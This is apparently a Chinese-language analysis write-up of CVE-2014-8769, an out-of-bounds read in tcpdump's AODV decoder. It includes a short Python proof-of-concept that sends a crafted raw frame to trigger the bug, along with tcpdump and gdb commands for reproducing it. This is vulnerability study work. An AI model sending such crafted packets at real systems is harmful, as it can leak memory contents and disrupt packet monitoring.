 # CVE-2014-8769 Tcpdump 4.6.2 Out-of-bounds Memory Access Vulnerability

**Author：wnagzihxa1n
Mail：tudouboom@163.com**

- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-8769
- http://cve.scap.org.cn/CVE-2014-8769.html

这是第三篇，目测也是个越界读取导致的不可靠数据输出

我们使用`4.5.1`版本，下载编译参考
- [TCPDump 4.5.1 Denial Of Service Vulnerability](http://couplee.wang/Linux/TCPDump%204.5.1%20Denial%20Of%20Service%20Vulnerability/article.html)

先测试Poc的有效性，启动Tcpdump
```
wnagzihxain@toT0C:~$ sudo tcpdump -i ens33 -s 0 -n -v
```

修改作者的Poc里的网卡为测试系统的网卡
```
#!/usr/bin/env python
from socket import socket, AF_PACKET, SOCK_RAW
s = socket(AF_PACKET, SOCK_RAW)
s.bind(("ens33", 0))

aovd_frame = "\x00\x00\x00\x00\x00\x00\x00\x00\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01\x68\x0a\x02\x02\x02\x02\x8e\x0d\x00\x4b\x00\x00\xe8\x12\x00\x00\x00\x00\x1f\xc6\x51\x35\x97\x00\x24\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01"

s.send(aovd_frame)
```

跑起来，发现很多输出，但是没有Crash（漏洞的标题就只是不可靠的输出==>泄露数据）

![](Image/1.png)

gdb调试模式启动tcpdump
```
wnagzihxain@toT0C:~$ sudo gdb tcpdump
```

设置参数
```
gdb-peda$ set args -i ens33 -s 0 -n -v
```

这里直接执行Poc是没用的，因为不会触发到异常导致断下，所以需要根据作者提供的信息，找到漏洞触发的函数，结合IDA静态分析触发漏洞的点

不过作者并没有说什么有用的信息，也没有指出有问题的函数是哪个，喵喵喵？？？
> The application decoder for the Ad hoc On-Demand Distance Vector (AODV) 
protocol fails to perform input validation and performs unsafe 
out-of-bound accesses. The application will usually not crash, but 
perform out-of-bounds accesses and output/leak larger amounts of invalid 
data, which might lead to dropped packets. It is unknown if other 
payload exists that might trigger segfaults.
